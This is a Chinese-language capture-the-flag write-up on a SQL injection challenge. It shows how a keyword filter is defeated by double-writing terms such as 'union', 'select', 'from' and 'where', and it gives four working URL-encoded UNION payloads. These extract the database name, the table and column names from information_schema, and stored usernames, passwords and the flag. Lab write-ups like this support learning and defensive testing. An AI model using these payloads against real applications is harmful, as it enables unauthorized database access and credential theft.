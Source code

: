 # 考察知识点：

# 1.sql注入

# 2.双写绕过



# 1.sql过滤判断

根据报错吧信息，判断过滤了select,但是这个过滤可以使用双写绕过

![](images/A2838492AF974F2BA71A3DEE4D2D4BF9clipboard.png)



![](images/9D2BBA4BFD8B41D387FE705D8EDA2A41clipboard.png)

or ,and等都显示输入username，可以判断or,and,union等都被过滤，但是使用双写绕过既可绕过过滤



# 2.采用联结注入

order by 确定行数。



# 3.union select联结查询，

```javascript
password=1'ununionion%20selselectect%20null,null,database()--+
```

确定数据库未geek

![](images/36B6475675F9498A8CC06BDD0FA7459Cclipboard.png)



# 4.爆表

```javascript
password=1'ununionion%20selselectect%20null,null,select%20group_concat(table_name)%20frfromom%20infoorrmation_schema.tables%20whwhereere%20table_schema='geek'--+
```



![](images/747D55C9125B4183B470489AA2F84D83clipboard.png)

确定geek数据库中有两个表，b4bsql,geekuser



# 5.爆字段

```javascript
password=1'ununionion%20selselectect%20null,null,select%20group_concat(column_name)%20frfromom%20infoorrmation_schema.columns%20whwhereere%20table_name='geekuser'--+ 
```

确定geekuser表中有username和password字段。

![](images/73AA841372444F9FAE936DFF31B9A8A4clipboard.png)



# 6.获取字段内容

```javascript
password=1'ununionion%20selselectect%20null,null,select%20group_concat(username,password)%20frfromom%20b4bsql--+ 
```

在b4bsql的password字段中获取到，flag。

注意：此处的password中的or要双写。



![](images/038F02B8D15A41CB85D4E995556DC8D4clipboard.png)

